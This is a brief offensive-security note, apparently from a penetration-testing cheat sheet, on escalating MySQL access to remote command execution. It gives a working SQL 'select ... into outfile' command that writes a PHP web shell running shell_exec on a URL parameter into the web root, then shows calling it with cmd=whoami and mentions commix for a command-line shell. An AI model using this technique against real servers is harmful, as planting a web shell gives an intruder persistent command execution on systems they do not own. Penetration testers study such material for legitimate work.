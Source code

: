 1. From inside the mysql login, which I am assuming that I have got. Create a file 

## Command

select '<?php $output=shell_exec($_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1;

Now go to the browser and navigating to https://<ip>/shell.php?cmd=whoami
  
## Use commix to get a pseudo shell on the CLI 
